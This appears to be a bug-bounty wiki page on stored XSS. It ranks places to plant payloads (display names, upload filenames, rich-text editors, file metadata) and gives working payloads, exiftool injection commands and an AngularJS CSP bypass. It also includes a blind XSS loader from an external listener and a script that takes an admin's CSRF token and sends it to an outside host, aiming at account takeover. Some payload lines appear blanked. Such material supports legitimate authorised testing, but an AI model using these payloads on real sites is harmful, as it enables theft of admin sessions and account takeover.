

> Source: https://bugbounty.info/Attack-Surface/Web/Injection/XSS/Stored-XSS

# Stored XSS

Stored XSS is the one that pays. It sits in the DB, waits, and fires on every victim who renders it  -  including admins. An alert(1) in a comment section is a P3. The same payload that fires in an admin's browser while they're reviewing user reports? P1.

## Where to Plant Payloads

Not all storage vectors are created equal. I rank them by blast radius:



### Profile Fields  -  Display Name

The display name is gold. It renders in:

- Admin user management panels
- Activity logs
- Chat headers
- Email notifications (sometimes triggers email clients)

```html

<svg/onload=alert(1)>
```

If there's a character limit on the UI, test the raw API request  -  the limit is often only front-end enforced.

### File Upload Names

When you upload `malicious.jpg`, does the filename get stored and rendered somewhere? Check:

- File management pages
- Download links
- Admin audit logs
- Email receipts

```text
Payload filename: .jpg
URL-encoded:      %3Cimg%20src%3Dx%20onerror%3Dalert%281%29%3E.jpg
```

Send the upload via Burp  -  intercept the multipart request and change `filename=` directly.

### Rich Text Editors (WYSIWYG)

TinyMCE, Quill, CKEditor  -  they all have a server-side sanitizer you need to beat. Client-side sanitization is irrelevant; post directly.

```html
<!-- Common bypasses for rich text editor filters -->
<a href="javascript:alert(1)">click me</a>

 
<!-- SVG with embedded event (often missed) -->
<svg><animate onbegin=alert(1) attributeName=x></svg>
<svg><set attributeName=onmouseover to=alert(1)></svg>
```

### Comment Fields / Reviews

Widest audience, lowest privilege  -  but useful for:

- Reflected attack chains (XSS + CSRF = account takeover)
- Self-XSS escalation via CSRF (force victim to submit a form that stores your payload)

### Metadata in Uploaded Files

EXIF data in images, PDF metadata, Office doc properties. If the app extracts and displays metadata:

```bash
# Inject XSS into EXIF comment field
exiftool -Comment='' photo.jpg
 
# Or into the Author field of a PDF
exiftool -Author='<svg onload=alert(1)>' document.pdf
```

## Admin Panel Targeting

My go-to for escalating stored XSS to critical:

1. Find any user-controlled field that an admin views (username, report text, uploaded file name, contact form message).
2. Drop a blind XSS payload that callbacks to a listener  -  I use [xsshunter.com](https://xsshunter.com) or self-hosted.
3. Wait for the admin to view it.
4. The callback tells me the URL where it fired, the cookies, and the DOM.

```javascript
// Blind XSS payload  -  works in one-liner attribute contexts too
"><script src=//YOUR.XSSHUNTER.COM/xss.js></script>
 
// Manual exfil  -  cookie + current URL

 
// Grab admin CSRF token  -  escalates to full account takeover
<script>
fetch('/settings').then(r=>r.text()).then(t=>{
  let token = t.match(/csrf[^"]*"[^"]+"/i)?.[0];
  fetch('https://COLLAB/?token='+btoa(token));
});
</script>
```

## CSP Bypass for Stored XSS

If the app has a Content-Security-Policy, read it before assuming you're blocked:

```text
Content-Security-Policy: default-src 'self'; script-src 'self' cdn.example.com
```

Look for:

- CDN whitelisted domains you can upload JS to (GitHub, Google APIs, etc.)
- `unsafe-inline` anywhere
- JSONP endpoints on whitelisted domains
- Angular/React chunk files that accept user-controlled data

```html
<!-- If cdn.jquery.com is whitelisted and it has a JSONP endpoint -->
<script src="https://cdn.example.com/angular.js"></script>
<div ng-app ng-csp>{{constructor.constructor('alert(1)')()}}</div>
```

## Escalation Checklist

- Does it fire in an admin panel?
- Can I steal the admin's session cookie?
- Is `HttpOnly` set? -> Go for CSRF token exfil instead
- Can I use the XSS to make authenticated requests as the admin?
- Can I use it to add a new admin account or change email/password?

## Public Reports

Real-world stored XSS findings across bug bounty programs:

- Stored XSS in HEY.com email bypassing HTML sanitizer (Basecamp) - [HackerOne #982291](https://hackerone.com/reports/982291)
- Stored XSS on Shopify activity page stealing admin cookies - [HackerOne #391390](https://hackerone.com/reports/391390)
- Stored XSS in GitLab "Create Groups" functionality - [HackerOne #647130](https://hackerone.com/reports/647130)

## Related

- [XSS Overview](../../../../XSS/)
- [Reflected XSS](../../../../Attack-Surface/Web/Injection/XSS/Reflected-XSS)
- [WAF Bypass](../../../../Attack-Surface/Web/Injection/XSS/WAF-Bypass)
